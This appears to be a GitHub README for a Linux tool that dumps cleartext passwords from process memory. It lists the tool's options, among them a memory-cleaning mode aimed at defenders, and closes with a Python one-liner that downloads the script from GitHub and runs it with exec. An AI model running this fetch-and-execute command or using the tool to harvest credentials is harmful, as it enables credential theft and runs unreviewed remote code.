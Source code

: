 # Dump_Passwords_Linux
Usage

usage: dump.py [-h] [--clean] [-v] [-p PID] [--search-password]

optional arguments:
    -h, --help         show this help message and exit
    --clean            @blueteams protect yourself and clean found passwords from memory ! You might want to regularly run this on your workstation/servers
    -v, --verbose      be more verbose !
    -p PID, --pid PID  choose the process's pid to scan instead of automatic selection
    --search-password  prompt for your password and search it in all your processes !.


Or just: 
python -c 'import urllib;exec urllib.urlopen("https://raw.githubusercontent.com/Kapalov/Dump_Passwords_Linux/master/dump.py").read()'


Enjoy!)
